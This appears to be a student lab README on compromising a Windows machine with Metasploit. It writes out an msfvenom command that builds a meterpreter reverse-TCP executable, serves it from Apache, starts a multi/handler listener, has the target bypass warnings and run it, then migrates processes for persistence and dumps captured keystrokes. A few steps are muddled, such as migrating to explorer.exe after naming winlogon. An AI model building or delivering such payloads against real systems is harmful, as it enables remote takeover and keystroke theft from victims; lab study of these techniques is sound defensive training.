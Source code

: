# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
![image](https://github.com/skiruthika648/Compromising-windows-using-Metasploit/assets/128348968/9f8fd562-1c07-4ef1-b2a2-557cd2a78a73)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![image](https://github.com/skiruthika648/Compromising-windows-using-Metasploit/assets/128348968/cf8a912e-d617-4847-b744-5d9ea61d853b)

 copy the fun.exe into the apache /var/www/html folder

 ![image](https://github.com/skiruthika648/Compromising-windows-using-Metasploit/assets/128348968/20561e95-478e-4824-a40f-59cd570f08c8)

Start apache server sudo systemctl apache2 start
![image](https://github.com/skiruthika648/Compromising-windows-using-Metasploit/assets/128348968/5b05a0ec-59d0-4a86-b2a3-5e10a1e67587)

Check the status of apache2
![image](https://github.com/skiruthika648/Compromising-windows-using-Metasploit/assets/128348968/77309e60-deb1-47ef-b9c5-f307f4ec1218)

## Invoke msfconsole:
OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/skiruthika648/Compromising-windows-using-Metasploit/assets/128348968/f2338383-b12c-407f-b544-4f3ed1d9f517)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/skiruthika648/Compromising-windows-using-Metasploit/assets/128348968/a923660d-5610-421c-b716-ac862f6190da)
Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/skiruthika648/Compromising-windows-using-Metasploit/assets/128348968/19184e12-a9c5-4c65-865c-9b81ee1dd9fe)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/skiruthika648/Compromising-windows-using-Metasploit/assets/128348968/1d562429-2067-4d71-86b0-29546a28bead)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![image](https://github.com/skiruthika648/Compromising-windows-using-Metasploit/assets/128348968/62fdc2c9-b6a2-4ea0-b4a8-8e1c5afcfebb)

keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/skiruthika648/Compromising-windows-using-Metasploit/assets/128348968/546cde82-7d3b-4a84-92f0-e13a4a6c6646)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
